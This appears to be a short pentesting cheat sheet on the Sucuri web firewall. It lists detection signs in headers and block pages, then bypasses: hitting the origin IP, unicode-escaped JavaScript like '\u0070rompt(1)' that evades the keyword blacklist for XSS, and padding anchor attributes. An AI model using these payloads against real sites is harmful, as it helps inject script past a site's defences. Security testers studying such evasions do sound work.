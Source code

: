 # Securi WAF

## Detection

- Detectability: Easy
Detection Methodology:
- Response headers may contain Sucuri or Cloudproxy keywords.
- Blocked response page contains the following text snippet:
- Access Denied - Sucuri Website Firewall text.
- Reference to https://sucuri.net/privacy-policy URL.
- Sometimes the email cloudproxy@sucuri.net.
- Contains copyright notice ;copy {year} Sucuri Inc.
- Response headers contains X-Sucuri-ID header along with normal requests.

---

## Bypasses

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


## Help 

https://github.com/0xInfection/Awesome-WAF  

